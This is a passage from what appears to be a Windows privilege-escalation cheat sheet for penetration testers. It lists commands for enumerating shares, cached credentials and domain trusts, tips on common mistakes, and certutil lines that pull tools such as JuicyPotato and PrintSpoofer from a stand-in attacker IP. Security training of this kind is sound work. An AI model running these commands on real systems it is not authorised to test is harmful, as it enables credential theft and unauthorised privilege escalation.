 ### Information Gathering
```cmd
# Enumerate network shares
net view
net view \\<computer-name>

# Check for cached credentials
cmdkey /list
dir C:\Users\%USERNAME%\AppData\Roaming\Microsoft\Credentials\
dir C:\Users\%USERNAME%\AppData\Local\Microsoft\Credentials\

# Domain information (if domain-joined)
net config workstation
nltest /domain_trusts
```

## Common Mistakes

### 1. Not Checking Basic Misconfigurations
❌ Jumping straight to kernel exploits
✅ Check AlwaysInstallElevated, service permissions, scheduled tasks first

### 2. Missing SeImpersonatePrivilege  
❌ Not checking `whoami /priv`
✅ Always check privileges - SeImpersonatePrivilege is very common

### 3. Not Enumerating Services Properly
❌ Only using `sc query`  
✅ Use multiple methods: sc, wmic, PowerShell, check file permissions

### 4. Ignoring PowerShell
❌ Only using cmd.exe commands
✅ PowerShell provides much more detailed information

### 5. Not Looking for Stored Credentials
❌ Immediately trying exploits
✅ Search filesystem and registry for passwords/keys

## Essential Tools to Transfer

### Must-Have Binaries
```cmd
# Download these to target
certutil -urlcache -split -f http://<attacker-ip>/winPEAS.exe
certutil -urlcache -split -f http://<attacker-ip>/accesschk.exe  
certutil -urlcache -split -f http://<attacker-ip>/JuicyPotato.exe
certutil -urlcache -split -f http://<attacker-ip>/PrintSpoofer.exe
certutil -urlcache -split -f http://<attacker-ip>/Seatbelt.exe
```
